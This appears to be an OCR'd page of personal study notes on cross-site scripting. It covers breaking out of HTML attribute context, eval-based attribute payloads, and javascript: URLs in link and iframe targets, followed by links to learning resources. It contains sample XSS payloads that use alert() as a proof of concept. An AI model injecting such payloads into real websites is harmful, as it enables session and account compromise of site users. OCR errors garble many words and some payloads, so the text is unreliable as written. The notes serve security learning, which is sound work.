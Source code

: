        ============================================================


## [Contextual Execution] (1) - HTML Attributes
+ Us: Html Atributs, Html Tags, & JS Functions
``` 
Tempte:              | Example:
                     |
    ---- attrbutes   |                         tag      value
                     |                          |         |
                     |                          V         v
 tag "value"         | <h1 class "hover-title" title="something">Hover</h1>
```

### Breaking Out of Context 
 1. ` - singequtoes:  `'(payload)`
 2. ` - doubl qutoes: `"(payload)`
 3. ace Charaters: `(space, \f, \n, \r, \t)`

+ Examples
 - Bic: `"><sript>alert(document.domain)</script>`
 - Bic: `"</txtarea><script>alert(document.domain)</script>`

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

### Use `eval()`

* Has an example: https://www.youtube.com/watch?v=eQFbG6CwwdI
```Use_eval()
<output name="alert(1)" onclick="eval(name)">X</output>
                 v                     ^
                 |                     |
                 +---------------------+
           `eval` grabs the tag value `name`
          and puts it inside the `onclick` tag
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

### Using `regex`

* Good example: https://www.youtube.com/watch?v=eQFbG6CwwdI

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


     ===========================================================


## [Contextual Execution] (2) - URLs
* Us: Html Atributes, Html Tags, JS Functions, URL Schemes
* No that `jaascript:alert()` or `"javascript:alert()"` should work regardless of quotes

+ Pontial TagTargets 
 - Link:   <a href="{{input_from_url}}">Link</a>
 - iFrame: <iframe src="{{input_from_url}}"></iframe>
 

[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: http://www.jsfuck.com/
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP